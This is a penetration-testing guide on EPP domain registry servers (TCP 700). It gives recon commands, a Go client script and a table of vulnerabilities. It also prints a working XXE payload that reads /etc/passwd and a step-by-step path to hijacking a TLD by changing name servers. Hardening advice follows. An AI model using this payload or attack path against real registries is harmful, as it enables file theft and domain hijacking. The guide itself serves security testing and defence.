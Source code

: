 # 700 - Pentesting EPP

## Basic Information

The Extensible Provisioning Protocol (EPP) is a network protocol used for the **management of domain names and other internet resources** by domain name registries and registrars. It enables the automation of domain name registration, renewal, transfer, and deletion processes, ensuring a standardized and secure communication framework between different entities in the domain name system (DNS). EPP is designed to be flexible and extensible, allowing for the addition of new features and commands as the needs of the internet infrastructure evolve.

Basically, it's one of the protocols a **TLD registrar is going to be offering to domain registrars** to register new domains in the TLD.

### Pentest

[**In this very interesting article**](https://hackcompute.com/hacking-epp-servers/) you can see how some security researches found several **implementation of this protocol** were vulnerable to XXE (XML External Entity) as this protocol uses XML to communicate, which would have allowed attackers to takeover tens of different TLDs.

---

## Enumeration & Recon

EPP servers almost always listen on TCP `700/tcp` over TLS.  A typical deployment also enforces **mutual-TLS (mTLS)** so the client must present a valid certificate issued by the registry CA.  Nevertheless, many private test or pre-production deployments forget that control:

```bash
# Banner-grabbing / TLS inspection
nmap -p700 --script ssl-cert,ssl-enum-ciphers <target>

# Check if mTLS is *really* required (it frequently is not!)
openssl s_client -connect <target>:700 -quiet \
  -servername epp.test 2>/dev/null | head
```

If the server does not terminate the connection after the TLS handshake you can attempt to send an unauthenticated `<hello/>` message:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<epp xmlns="urn:ietf:params:xml:ns:epp-1.0">
  <hello/>
</epp>
```

### Open-source clients useful for testing

* **epp-client (Go)** – actively maintained, supports TCP/TLS and EPP-over-HTTPS (RFC 8730):  
  `go install github.com/domainr/epp/cmd/epp@latest`
* **gandi/go-epp** – minimal client library that can easily be instrumented for fuzzing or nuclei-style workflows.
* **afq984/php-epp-client** – PHP implementation used by many small registrars; a convenient target for code-review.

Example minimal login+check script with Go epp-client:

```go
package main
import (
    "github.com/domainr/epp"
    "crypto/tls"
)

func main() {
    cfg := &tls.Config{InsecureSkipVerify: true}
    c, _ := epp.DialTLS("epp.test:700", cfg)
    c.Login("CLIENT_ID", "PASSWORD", nil)
    resp, _ := c.DomainCheck("example","com")
    println(resp)
}
```

---

## Common Weaknesses & 2023-2025 Vulnerabilities

| Year | Component | CWE | Impact |
|------|-----------|-----|--------|
| 2023 | CoCCA Registry < 3.5 | CWE-611 XXE | Remote file read & SSRF via crafted `<epp>` payload (patch: 2023-11-02) |
| 2024 | FRED EPP Server 2.x | CWE-322 Insufficient TLS cert validation | Bypass of mTLS allowed unauthorized registrar login |
| 2025 | Proprietary registrar panel | CWE-306 Missing Authentication for Critical Function | Domain transfer approval endpoint exposed over EPP-HTTP bridge |

### XXE / SSRF payload (works against many Java/Spring implementations)

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<epp xmlns="urn:ietf:params:xml:ns:epp-1.0">
  <command>
    <check>
      <domain:check xmlns:domain="urn:ietf:params:xml:ns:domain-1.0">
        <domain:name>&xxe;</domain:name>
      </domain:check>
    </check>
  </command>
</epp>
```

When the parser is mis-configured (`XMLInputFactory.IS_SUPPORTING_EXTERNAL_ENTITIES=true`) the file content is returned inside the `<resData>` structure.

### Other typical findings

1. **Weak credential policy** – EPP login passphrases shorter than 8 chars; brute-force is often feasible because the spec only RECOMMENDS (not requires) rate-limiting.
2. **Missing `registryLock` / `serverUpdateProhibited` status** – once authenticated, attackers can immediately update NS records and steal traffic.
3. **Unsigned poll messages** – some implementations still do not sign poll Q&A messages, enabling spoofing/phishing of registrar operators.

---

## Attack Path: From Zero to TLD Hijack

1. Discover an EPP endpoint (often hidden behind a generic host like `ot&e.<tld>.nic.<cc>`).
2. Abuse one of the weaknesses above to gain registrar-level credentials (XXE → SSRF to IMDSv1, credential exfil, or TLS-bypass).
3. Issue `<update>` requests to change the domain’s `hostObj` records to attacker-controlled name servers.
4. (Optional) Submit a `<transfer>` to move the domain to an attacker-controlled registrar – many registries still rely on a **single auth-code**.
5. Profit: full control of DNS zone, ability to request TLS certificates via ACME.

---

## Defensive Measures & Hardening

* Enforce **mTLS with per-registrar client certificates** and pin the registry CA.
* Set `parserFeature secure-processing=true` or equivalent to kill XXE.
* Run **continuous fuzzing** of the XML parser (e.g., with `go-fuzz` or `jazzer` for Java).
* Deploy **Registry Lock / server*Prohibited** statuses for high-value domains.
* Monitor `poll` queue for suspicious `<transfer>` or `<update>` commands and alert in real-time.
* ICANN 2024 DNS-Abuse contract amendments require registries to prove rate-limit & auth controls – leverage them.

## References

* ICANN Security and Stability Advisory Committee (SSAC). "SAC118: Consequences of Registry Operator Failure to Implement EPP Security Controls". 2024.
* HackCompute – "Hacking EPP servers: abusing XXE to hijack TLDs" (2023).


